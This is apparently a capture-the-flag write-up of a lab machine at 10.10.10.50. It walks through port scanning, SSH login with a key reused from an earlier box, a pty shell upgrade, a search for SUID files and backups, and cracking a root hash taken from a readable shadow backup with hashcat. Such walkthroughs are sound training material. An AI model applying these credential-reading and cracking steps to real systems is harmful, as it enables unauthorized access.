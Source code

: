 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)

## Recon-Enumeration  
sudo masscan -p1-65535 10.10.10.50 -e tun0 --rate=1000  
![alt text](./img/guard01.PNG?raw=true)  

nmap -A -p 22 10.10.10.50  
![alt text](./img/guard02.PNG?raw=true)  

## Exploit  
Since we have another ssh port, let’s try to connect it with the same command from the MARKUP machine
ssh daniel@10.10.10.50 -i id_rsa_daniel  
![alt text](./img/guard03.PNG?raw=true)  
  
HABEMUS SHELL \o/
BUT, if we try to user the auto-complete from the shell or even read the user.txt flag we have problems…  
![alt text](./img/guard04.PNG?raw=true)  

However this is easy, just run the following command:  
python3 -c 'import pty;pty.spawn("/bin/bash")'  
![alt text](./img/guard05.PNG?raw=true)  

## Privesc  
Here our user can run sudo commands  
![alt text](./img/guard06.PNG?raw=true)  

Let’s search for files with the S permission
find / -perm -u=s 2>/dev/null  
![alt text](./img/guard07.PNG?raw=true)  
  
Nothing really useful

Let’s search some backups folders  
find / -name \*backup\* 2>/dev/null  
![alt text](./img/guard08.PNG?raw=true)  

Ok, that /var/backups can be useful  
![alt text](./img/guard09.PNG?raw=true)  

Wow, shadow? And readable? Ok….  
![alt text](./img/guard10.PNG?raw=true)  

Now we copy the root hash to a hash.txt file and use hashcat to break it
hashcat -m 1800 -o cracked hash.txt ~/wordlists/rockyou.txt  
![alt text](./img/guard11.PNG?raw=true)  

Now let’s try to log as root  
![alt text](./img/guard12.PNG?raw=true)  

Go to the /root folder and get the flag

## Discoveries  
